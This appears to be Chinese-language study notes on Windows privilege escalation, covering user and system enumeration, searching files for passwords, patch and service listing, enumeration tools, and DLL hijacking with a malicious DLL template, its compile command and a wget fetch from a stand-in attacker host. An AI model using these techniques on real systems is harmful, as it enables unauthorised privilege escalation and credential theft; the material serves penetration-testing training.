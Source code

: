 # 信息收集

## 用户枚举
> 当前用户的权限： whoami /priv
> 列出用户： net users
> 列出用户的详细信息：（net user username例如net user Administrator）
> 其他用户同时登录：qwinsta（该query session命令可以用来以相同的方式） 
> 系统上定义的用户组： net localgroup
> 列出特定组的成员：（net localgroup groupname例如net localgroup Administrators）

## 系统信息
> systeminfo

此命令返回的信息可能很多，可以用findstr命令过滤

> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

上面命令只返回OS Name和OS Version

## 查找文件

命令：```findstr```

例子：```findstr /si password *.txt```

命令分解：

```findstr```：搜索文件中的文本模式。

```/si```：搜索当前目录和所有子目录（s），忽略大写/小写差异（i）

```password```: 该命令将在文件中搜索字符串“password”

```*.txt```：搜索将涵盖具有 .txt 扩展名的文件

## Patch level(补丁)

> wmic qfe get Caption,Description,HotFixID,InstalledOn

列举所有补丁，一共展示4列，分别是：Caption,Description,HotFixID,InstalledOn

## 网络连接

> netstat -ano

上面的命令可以分解如下；

-a：显示目标系统上的所有活动连接和侦听端口。
-n: 防止名称解析。IP 地址和端口以数字显示，而不是尝试使用DNS解析名称。
-o：使用列出的每个连接显示进程 ID。

## 定时任务

> schtasks /query /fo LIST /v

## 驱动程序

>driverquery

## 杀毒软件

查看win10的windefend服务状态：
> sc query windefend

在不知道杀毒软件名字的时候，输入会很冗余：
> sc queryex type=service


# 自动枚举脚本

WinPEAS ：https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
PowerUp ：https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
Windows Exploit Suggester： https://github.com/AonCyberLabs/Windows-Exploit-Suggester （Python脚本，需要Python环境）
Metasploit： 如果有一个MSF的shell，可以使用```multi/recon/local_exploit_suggester```枚举提权模块

# 易受攻击的软件

思路：通过攻击存在漏洞的软件来提升系统权限

枚举安装的软件：(可能很慢)
> wmic product get name,version,vendor

枚举服务：
> wmic service list brief

精确的枚举在运行的服务：
> wmic service list brief | findstr  "Running"

列出单个服务的详细信息，使用命令
> sc qc 服务名称

# DLL劫持

## 什么是DLL

DLL就是windows下的动态连接库，它不可以被直接执行，仅供应用程序调用。有时候系统会缺少某些不太重要的DLL库，此时就可以制造一个恶意的DLL库劫持掉应用程序调用，执行恶意代码进行提权。

类似于linux下的SUID+$PATH劫持

DLL调用顺序，在启用了```SafeDllSearchMode```下为：
1. The directory from which the application loaded.

2. The system directory. Use the GetSystemDirectory function to get the path of this directory.

3. The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.

4. The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.

5. The current directory.

6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

没有启用```SafeDllSearchMode```下为：

1. The directory from which the application loaded.

2. The current directory.

3. The system directory. Use the GetSystemDirectory function to get the path of this directory.

4. The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.

5. The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.

6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

应用程序在调用DLL时，会从上面的列表中逐步往下找是否有这个DLL文件，DLL攻击的一个前提是，在应用程序调用合法的DLL之前，应该先执行我们的恶意DLL文件。

## 查找DLL劫持漏洞
> 识别 DLL 劫持漏洞需要向目标系统加载额外的工具或脚本。另一种方法是在测试系统上安装相同的应用程序。但是，由于版本差异或目标系统配置，这可能无法给出准确的结果。


> 可用于查找潜在 DLL 劫持漏洞的工具是 Process Monitor (ProcMon)。由于 ProcMon 需要管理权限才能工作，这不是您可以在目标系统上发现的漏洞。如果您想检查任何软件是否存在潜在的 DLL 劫持漏洞，您需要在您的测试环境中安装该软件并在那里进行研究。

## 创建恶意 DLL 文件

大概框架如下，system里面的命令可以自定义，看需要
```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

安装Mingw 编译器
> apt install gcc-mingw-w64-x86-64

在kali上编译上面的代码成一个dll文件：
> x86_64-w64-mingw32-gcc hijackdll.c -shared -o hijackme.dll


靶机获取上面的dll文件：
> wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll



